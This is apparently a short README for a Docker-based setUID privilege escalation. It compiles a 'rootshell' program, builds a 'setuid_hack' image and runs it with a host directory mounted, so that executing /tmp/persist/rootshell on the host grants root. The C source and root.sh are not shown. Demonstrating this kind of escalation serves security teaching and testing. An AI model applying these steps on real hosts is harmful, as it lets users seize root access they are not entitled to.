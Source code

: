 ## How to escalate privilege using setUID : 

Compile c program : 
```
gcc -o rootshell rootshell.c
```

Build the docker images : 
```
docker build -t setuid_hack .
```

Run container : 

```
docker run -v /tmp/persist:/persist setuid_hack:latest /bin/sh root.sh
```

Privilege escalation : 

1. Run `id` command . 
2. execute /tmp/persist/rootshell . 
3. Re-run id command . (You are now root)
